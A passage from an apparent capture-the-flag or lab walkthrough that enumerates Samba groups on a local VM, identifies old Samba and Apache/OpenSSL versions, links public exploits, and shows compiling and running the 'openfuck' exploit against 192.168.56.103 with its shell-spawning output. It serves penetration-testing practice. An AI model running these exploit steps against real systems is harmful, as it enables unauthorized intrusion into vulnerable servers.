 group:[sys] rid:[0x3ef]
group:[tty] rid:[0x3f3]
group:[disk] rid:[0x3f5]
group:[mem] rid:[0x3f9]
group:[kmem] rid:[0x3fb]
group:[wheel] rid:[0x3fd]
group:[man] rid:[0x407]
group:[dip] rid:[0x439]
group:[lock] rid:[0x455]
group:[users] rid:[0x4b1]
group:[slocate] rid:[0x413]
group:[floppy] rid:[0x40f]
group:[utmp] rid:[0x415]

[+] Getting local group memberships:

[+] Getting domain groups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]

[+] Getting domain group memberships:
Group 'Domain Admins' (RID: 512) has member: Couldn't find group Domain Admins
Group 'Domain Users' (RID: 513) has member: Couldn't find group Domain Users
{% endhighlight %}

This gives us a ton of information about Samba, especially Server=[Samba 2.2.1a]. A quick search reveals a RCE vulnerability.

Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
<https://www.exploit-db.com/exploits/7/>

<https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-9501/Samba-Samba-2.2.1a.html>

## Exploitation
We've now found a bunch of vulnerabilities to try out. The 2 most promising are RCE for Apache and SSL (CVE-2002-0082) and Samba (CVE-2003-0201).

#### CVE-2002-0082
Exploit available from <https://www.exploit-db.com/exploits/764/> also note that the exploit code needs updated, the code has a link on how to do this. Also needed to install libssl1.0-dev as well. Once compiled we run it.

{% highlight python %}
gcc -o openfuck openfuck.c -lcrypto
./openfuck

0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
{% endhighlight %}

There are 2 offsets to try 0x6a/0x6b

{% highlight python %}
./openfuck 0x6a 192.168.56.103 443

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8088
Ready to send shellcode
Spawning shell...
Good Bye!
{% endhighlight %}
